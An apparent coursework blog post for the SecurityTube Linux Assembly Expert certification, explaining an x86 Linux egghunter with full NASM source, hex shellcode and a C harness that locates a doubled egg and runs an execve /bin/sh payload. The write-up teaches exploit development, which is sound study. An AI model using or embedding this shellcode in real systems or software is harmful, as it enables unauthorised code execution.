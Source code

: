 ```yaml
---
comments: true
date: 2014-04-09
layout: blog
title: 'SLAE Assignment 3: EggHunter Demo'
category: blog
image: /images/header_images/slaelogo.png
tags: [asm-x86,nasm,slae]
---
```


This is the third of the seven assignment necessary to accomplish the [SecurityTube Linux Assembly Expert](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/index.html) certification. The instructions for this assignment are:

  1. Study about EggHunter
	
  2. Make a working demo
	
  3. Make it configurable for different payload

An EggHunter is a small piece of code that search to a pattern (the egg) into the memory and once the pattern is found the shellcode will be executed. Tipically the egg is wrote twice, this to avoid the problem of finding an identical sequence in some other part of the memory.

The following is a PoC of an EggHunter:

```c    
unsigned char egghunter[] = "egghunter shellcode"
unsigned char shellcode[] = \
"egg"
"egg"
"execve /bin/sh shellcode"

int main(void){
    run(egghunter);
    return 0;
}
```

This is the complete shellcode:

```nasm    
;Description:	Assignment #3 (EggHunter, 34 bytes)
;Shellcode:		\xd9\xee\x9b\xd9\x74\x24\xf4\x58\x40\x31\xdb\xb1\x02\x81\x3c\x18\xaa\xbb\xcc\xdd\x75\xf2\x83\xc3\x04\xfe\xc9\x75\xf0\x8d\x40\x08\xff\xe0
;Author: 		Paolo Stivanin <https://github.com/polslinux>
;SLAE ID:		526

global _start
section .text
_start:
	fldz
	fstenv [esp-0xc]
	pop eax
lp1:
	inc eax
	xor ebx,ebx
	mov cl,2
lp2:
	cmp dword [eax+ebx],0xddccbbaa
	jne lp1
	add ebx,4	;the egg must be found twice so i check eax and eax+4
	dec cl		;this is a counter to track how many times the egg has been found
	jnz lp2
	lea eax,[eax+8]	;if the egg has been found then jmp into the shellcode
	jmp eax
```

In this shellcode I didn't use the jmp-call-pop technique (which is more ids friendly) but instead I used two FPU instructions:

  * `fldz` to push +0.0 onto the FPU register stack
	
  * `fstenv [esp-0xc]` to save the current FPU operating environment at the specified memory location
	
  * and then `pop eax` . Now `eax` contains the address offldz

The following is the graph of the egghunter shellcode flow:

[![graph_assign3]({{ site.baseurl }}/images/2014/04/graph_assign3-1024x601.png)]({{ site.baseurl }}/images/2014/04/graph_assign3.png)

This is the C source file:

```c    
/* Description:	EggHunter(execve(/bin/sh))
 * Author:	Paolo Stivanin <https://github.com/polslinux>
 * SLAE ID:	526
 */

#include <stdio.h>
#include <string.h>

unsigned char eggHunter[] = \
"\xd9\xee\x9b\xd9\x74\x24\xf4\x58\x40\x31\xdb\xb1\x02\x81\x3c\x18\xaa\xbb\xcc\xdd\x75\xf2\x83\xc3\x04\xfe\xc9\x75\xf0\x8d\x40\x08\xff\xe0";

unsigned char execveShellcode[] = \
"\xaa\xbb\xcc\xdd" //egg
"\xaa\xbb\xcc\xdd" //egg
"\xeb\x25\x5e\x89\xf7\x31\xc0\x50\x89\xe2\x50\x83\xc4\x03\x8d\x76\x04\x33\x06\x50\x31\xc0\x33\x07\x50\x89\xe3\x31\xc0\x50\x8d\x3b\x57\x89\xe1\xb0\x0b\xcd\x80\xe8\xd6\xff\xff\xff\x2f\x2f\x62\x69\x6e\x2f\x73\x68";

int main(void){
	printf("EggHunter: %zu\n", strlen(eggHunter));
	printf("Shellcode: %zu\n", strlen(execveShellcode));
	int (*ret)() = (int(*)())eggHunter;
	ret();
	return 0;
}
```

and the following is the result of the above snippet:

[![assign3]({{ site.baseurl }}/images/2014/04/assign3-1024x552.png)]({{ site.baseurl }}/images/2014/04/assign3.png)

All the sources can be found in my [Github page](https://github.com/polslinux/SLAE/).

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: [http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)

**Student ID: SLAE-526**
